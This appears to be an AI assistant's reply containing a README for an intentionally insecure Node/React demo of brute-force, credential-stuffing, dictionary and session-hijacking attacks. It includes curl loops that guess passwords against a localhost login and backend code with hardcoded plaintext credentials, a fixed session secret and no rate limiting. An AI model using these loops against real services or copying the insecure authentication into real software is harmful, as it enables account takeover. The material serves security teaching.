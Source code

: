 Here is a **complete, professional README.md** file for your broken authentication demonstration project. It includes setup instructions for both **frontend (React)** and **backend (Node.js)**, attack demonstration steps, and security explanations.

```markdown
# 🔐 Broken Authentication Demo Project

A hands-on demonstration of common authentication vulnerabilities:
- Brute Force
- Credential Stuffing
- Dictionary Attack
- Session Hijacking

> ⚠️ **Warning**: This project is intentionally insecure for educational purposes only. Do not use in production.

---

## 📦 Project Structure

```
CSDF/
├── frontend/           # React login interface
├── backend/            # Node.js + Express server
├── combolist.txt       # Username/password pairs for credential stuffing
├── passwords.txt       # Common passwords for dictionary attack
├── usernames.txt       # Common usernames for dictionary attack
└── README.md           # This file
```

---

## 🛠️ Setup Instructions

### 1. Start the Backend

```
cd backend
npm install express cors express-session
node server.js
```

> Server runs on `http://localhost:4000`

### 2. Start the Frontend (Optional)

```
cd frontend
npm install
npm start
```

> React app runs on `http://localhost:3000`

---

## 🔥 Attack Demonstrations

### 1. Brute Force Attack
Try common passwords against `admin`:

```
for pwd in admin password 123456 qwerty letmein welcome admin123; do
  echo "Testing password: $pwd"
  response=$(curl -s -w "%{http_code}" \
    -H "Content-Type: application/json" \
    -d "{\"username\": \"admin\", \"password\": \"$pwd\"}" \
    http://localhost:4000/login)
  body="${response::-3}"
  status="${response: -3}"
  echo "Status: $status"
  echo "Response: $body"
  echo "---"
done
```

✅ Success: `admin:admin123`

---

### 2. Credential Stuffing Attack
Test known username/password pairs:

```
echo -e "admin:admin123\n122:123" > combolist.txt

while IFS=: read user pass; do
  curl -X POST \
    -H "Content-Type: application/json" \
    -d "{\"username\": \"$user\", \"password\": \"$pass\"}" \
    http://localhost:4000/login
  echo ""
done < combolist.txt
```

✅ Success: Both pairs work.

---

### 3. Dictionary Attack
Try all username/password combinations:

```
echo -e "admin\npassword\n123456\nqwerty\nletmein\nwelcome\n122\n123" > passwords.txt
echo -e "admin\n122" > usernames.txt

while read user; do
  while read pwd; do
    clean_user=$(echo "$user" | tr -d '\r')
    clean_pwd=$(echo "$pwd" | tr -d '\r')
    response=$(curl -s -w "%{http_code}" \
      -H "Content-Type: application/json" \
      -d "{\"username\": \"$clean_user\", \"password\": \"$clean_pwd\"}" \
      http://localhost:4000/login)
    body="${response::-3}"
    status="${response: -3}"
    if [[ "$status" == "200" && "$body" == *'"success":true'* ]]; then
      echo "SUCCESS: $clean_user:$clean_pwd"
      echo "Response: $body"
      echo "Status: $status"
      echo "---"
    fi
  done < passwords.txt
done < usernames.txt
```

✅ Success: `admin:admin123`, `122:123`

---

### 4. Session Hijacking
Steal and reuse a session cookie:

1. Log in via frontend to get a valid session.
2. Copy `connect.sid` from browser dev tools.
3. Use it in `curl`:

```
curl -H "Cookie: connect.sid=s%3A29plYv8iA4K2NTWjIFLEhOu_dFqxulYb.4MytMAHvitFB%2BiFBUFj8RtlZ4IA8QypEPn%2FpTNJPa0A" \
  http://localhost:4000/profile
```

✅ Output:
```
{"loggedIn":true,"user":{"username":"admin"}}
```

---

## 🛡️ Vulnerabilities Demonstrated

| Attack | Vulnerability |
|-------|---------------|
| Brute Force | No rate limiting, weak password |
| Credential Stuffing | Password reuse, no MFA |
| Dictionary Attack | Predictable credentials |
| Session Hijacking | Insecure session cookies |

---

## 🛠️ Backend Code (`backend/server.js`)

```
const express = require('express');
const cors = require('cors');
const session = require('express-session');

const app = express();

app.use(cors({
  origin: 'http://localhost:3000',
  credentials: true
}));

app.use(express.json());

// 🔥 Insecure hardcoded users
const users = [
  { username: 'admin', password: 'admin123' },
  { username: '122', password: '123' }
];

app.use(session({
  secret: 'demo_insecure_secret',
  resave: false,
  saveUninitialized: true,
  cookie: { maxAge: 86400000 } // 1 day
}));

app.post('/login', (req, res) => {
  const { username, password } = req.body;
  const user = users.find(u => u.username === username && u.password === password);
  if (user) {
    req.session.user = { username: user.username }; // Minimal session
    res.json({ success: true, message: "Login successful" });
  } else {
    res.status(401).json({ success: false, message: "Invalid credentials" });
  }
});

app.get('/profile', (req, res) => {
  if (req.session.user) {
    res.json({ loggedIn: true, user: req.session.user });
  } else {
    res.status(401).json({ loggedIn: false });
  }
});

app.listen(4000, () => {
  console.log('Insecure Demo Server running on port 4000');
});
```

---

## 🧠 Educational Notes

- This project shows how **real attackers exploit weak authentication**.
- Always implement:
  - Strong password policies
  - Rate limiting
  - MFA
  - Secure session management (`HttpOnly`, `SameSite`, short expiry)
- Use tools like `express-rate-limit` and `bcrypt` in real apps.

---

## 📚 References
- OWASP Top 10: Broken Authentication
- NIST Password Guidelines
- MITRE ATT&CK: T1110 (Brute Force)

> Created for educational use in security awareness and ethical hacking demonstrations.
```

***

### ✅ How to Use This README

1. Save as `README.md` in your project root.
2. Share with instructors or peers.
3. Use during presentations to explain each attack and vulnerability.

